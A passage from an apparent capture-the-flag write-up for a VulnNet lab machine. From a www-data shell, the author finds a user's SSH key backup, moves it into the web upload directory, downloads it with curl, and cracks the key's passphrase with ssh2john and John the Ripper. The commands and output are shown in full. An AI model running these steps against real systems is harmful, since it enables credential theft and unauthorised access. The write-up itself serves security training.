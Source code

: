 Looks like it's backuping user `server-management` Documents files.

```
ls -lah /home
[...]
drwxrw---- 18 server-management server-management 4.0K Jan 24  2021 server-management
```

However, `www-data` can't read `server-management` user's file. Hence, we need to escalate to `server-management` first.

First, let's `find` any files that are interesting for us of user `server-management`:

```
find / -type f -user server-management 2>/dev/null

/var/backups/ssh-backup.tar.gz
```

We can copy the file to our reverse shell path:

```
cp /var/backups/ssh-backup.tar.gz /var/www/html/actions/CB_BEATS_UPLOAD_DIR/ssh-backup.tar.gz

ls -lah
[...]
-rw-r--r-- 1 www-data www-data 3.0K Jul 11 09:28 165752453575eede.php
-rw-r--r-- 1 www-data www-data 1.5K Jul 11 09:51 ssh-backup.tar.gz
```

Then, download that gzip file via `curl`:

```
┌──(root💀nam)-[~/ctf/thm/ctf/VulnNet]
└─# curl -u developers:[Redacted] http://broadcast.vulnnet.thm/actions/CB_BEATS_UPLOAD_DIR/ssh-backup.tar.gz -o ssh-backup.tar.gz
```

Decompress it and extract it via `gunzip` and `tar`:

```
┌──(root💀nam)-[~/ctf/thm/ctf/VulnNet]
└─# gunzip ssh-backup.tar.gz                                                               
                                                                                                                      
┌──(root💀nam)-[~/ctf/thm/ctf/VulnNet]
└─# tar -xf ssh-backup.tar 
                                                                                                                      
┌──(root💀nam)-[~/ctf/thm/ctf/VulnNet]
└─# ls -lah               
[...]
-rw-------   1 nam  nam  1.8K Jan 24  2021 id_rsa
-rw-r--r--   1 root root 3.5K Jul 11 03:53 ssh-backup.tar
```

Next, we can crack the passphrase of this `id_rsa` via `ssh2john` and `John The Ripper`:

```
┌──(root💀nam)-[~/ctf/thm/ctf/VulnNet]
└─# ssh2john id_rsa > srvman_id_rsa.txt                          
                                                                                                                      
┌──(root💀nam)-[~/ctf/thm/ctf/VulnNet]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt srvman_id_rsa.txt  
[...]
[Redacted]     (id_rsa)     
[...]
```
